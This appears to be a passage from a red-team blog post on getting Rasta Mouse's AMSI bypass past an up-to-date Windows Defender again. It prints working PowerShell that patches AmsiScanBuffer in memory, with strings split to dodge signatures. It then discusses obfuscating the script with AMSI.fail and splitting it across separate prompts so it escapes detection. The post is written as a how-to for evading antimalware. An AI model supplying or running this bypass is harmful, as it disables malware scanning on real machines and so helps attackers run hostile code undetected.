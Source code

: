 ```
Add-Type $Win32

$LoadLibrary =3D [Win32]::LoadLibrary("am" + "si.dll")
$Address =3D [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffe=
r")
$p =3D 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch =3D [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Note that the "Add-Type" technique is not the best if [trying to remain
stealthy](
https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypa=
ss),
but we will ignore that for today.

Let's try to run this .ps1 version on an up to date Windows 10 running
Windows Defender:

[image1]
![image1.png]({{site.baseurl}}/_posts/images/image1.png)


As hinted previously, the script now gets caught. We will focus on
"refreshing" it, with **zero modification** to the actual script, and just
a little bit of PowerShell magic.

Before we get started, this [blog post](
https://fatrodzianko.com/2020/08/25/getting-rastamouses-amsiscanbufferbypas=
s-to-work-again/)
shows that it can be rewritten into a working bypass with a little bit of
effort. The result still works, six months later. But that's way too much
thinking for a script kiddie.

We can also obfuscate automatically our original script using [AMSI.fail](
https://amsi.fail/). This tool will alternate between obfuscation
techniques each time we run it. In my limited experience, we obtain an
undetected result less than 25% of the time when trying to obfuscate Rasta
Mouse's original script. It kinda passes the script kiddie threshold, but
it's also a bit too much trial and error.

Also, I question using third parties to obfuscate my scripts from a
security perspective.


### Splitting the Script


Let's get started with rejuvenating Rasta Mouses's bypass. We split our
script into three carefully chosen parts and run them on three different
prompts. We run a blacklisted keyword before and after.

![image2.png]({{site.baseurl}}/_posts/images/image2.png)
